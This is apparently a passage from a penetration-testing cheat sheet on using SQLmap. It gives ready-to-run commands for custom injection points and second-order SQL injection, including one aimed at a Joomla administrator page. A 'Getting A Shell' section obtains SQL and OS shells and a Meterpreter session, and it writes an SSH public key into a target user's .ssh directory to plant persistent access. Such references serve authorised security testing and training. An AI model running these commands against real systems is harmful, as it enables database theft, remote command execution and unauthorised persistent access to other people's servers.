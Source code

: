 A custom injection point in SQLmap allows you to specify exactly where and how SQLmap should attempt to inject payloads into a request. This is useful when dealing with more complex or non-standard injection scenarios that SQLmap may not detect automatically.

By defining a custom injection point with the wildcard character '`*`' , you have finer control over the testing process, ensuring SQLmap targets specific parts of the request you suspect to be vulnerable.

```powershell
python sqlmap.py -u "http://example.com" --data "username=admin&password=pass"  --headers="x-forwarded-for:127.0.0.1*"
```


## Second Order Injection

A second-order SQL injection occurs when malicious SQL code injected into an application is not executed immediately but is instead stored in the database and later used in another SQL query. 

```powershell
sqlmap -r /tmp/r.txt --dbms MySQL --second-order "http://targetapp/wishlist" -v 3
sqlmap -r 1.txt -dbms MySQL -second-order "http://<IP/domain>/joomla/administrator/index.php" -D "joomla" -dbs
```


## Getting A Shell

* SQL Shell: 
    ```ps1
    python sqlmap.py -u "http://example.com/?id=1"  -p id --sql-shell
    ```

* OS Shell: 
    ```ps1
    python sqlmap.py -u "http://example.com/?id=1"  -p id --os-shell
    ```
    
* Meterpreter: 
    ```ps1
    python sqlmap.py -u "http://example.com/?id=1"  -p id --os-pwn
    ```

* SSH Shell: 
    ```ps1
    python sqlmap.py -u "http://example.com/?id=1" -p id --file-write=/root/.ssh/id_rsa.pub --file-destination=/home/user/.ssh/
    ```


## Crawl And Auto-Exploit

This method is not advisable for penetration testing; it should only be used in controlled environments or challenges. It will crawl the entire website and automatically submit forms, which may lead to unintended requests being sent to sensitive features like "delete" or "destroy" endpoints.
